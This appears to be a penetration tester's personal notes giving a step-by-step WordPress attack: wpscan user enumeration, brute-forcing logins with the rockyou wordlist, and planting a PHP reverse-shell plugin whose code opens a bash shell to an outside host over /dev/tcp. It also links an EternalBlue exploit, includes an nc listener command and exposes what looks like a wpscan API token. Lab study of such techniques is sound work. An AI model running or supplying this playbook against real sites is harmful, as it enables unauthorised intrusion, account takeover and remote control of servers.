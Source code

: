 If wordpress then run wpscan and enumerate 
```
wpscan --url http://192.168.x.x/wordpress/ -e -t 25 -v  --force --api-token Sy5tZcHbYUJyHJbw6TbZBNqiyIO9copNXdF6Zkzh3cg -o WPScan.txt
```

If Users are found from enumeration "-e" then crack their logins

```
wpscan --url http://192.168.x.x/wordpress/ -t 20 -v  --force -U admin,user1,user2 -P /usr/share/wordlists/rockyou.txt
```

Once logged in then add in pentest monkey's reverse shell php code into the theme editor on one of the pages
![[Pasted image 20231105103720.png]]

Or upload the reverse shell plugin as a zip file
https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>
```
### Samba
Non Metasploit Eternal Blue Exploit
https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/README.md

## Access
MySQL has a specific way of accessing it since you need -p but type the password later
```sh
mysql --host=192.168.x.x --port=3306 --user=USERNAME -p
```

Or use GUI based `dbeaver`
# Linux Targets

## Access
Prep a nc listener

```sh
nc -nlvp 4444
```

